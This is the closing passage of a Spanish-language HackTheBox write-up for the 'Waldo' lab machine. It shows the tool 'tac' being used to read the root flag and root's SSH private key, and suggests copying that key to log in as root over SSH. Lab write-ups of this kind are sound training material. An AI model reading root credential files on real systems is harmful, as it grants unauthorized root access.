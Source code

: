 Directamente podemos acceder a la root de flag con el comando `tac`

```bash
monitor@waldo:~$ tac /root/root.txt
bdfcba531bbbda964***************
```
De forma adicional si queremos ganar acceso con el ususrio root podemos listar su clave `id_rsa` traerla a nuestro equipo y conectarnos por ssh

```bash
monitor@waldo:~$ tac /root/.ssh/id_rsa
-----END RSA PRIVATE KEY-----
x8YIcMgR7/X4fGSV20lsgTVMSH9uNNXD+W3sCJ6Nk+mUBcdUoeFt+w==
F8mp0GWsEg8kUboEKkyAffG5mcZ/xwZP0MbnmGjIg28DgcbnMsldxOJi3m3VAbC+
.
.
.
```

Hemos completado la máquina **Waldo** de HackTheBox!! Happy Hacking!!


<img src="/assets/HTB/Waldo/pwned.png">
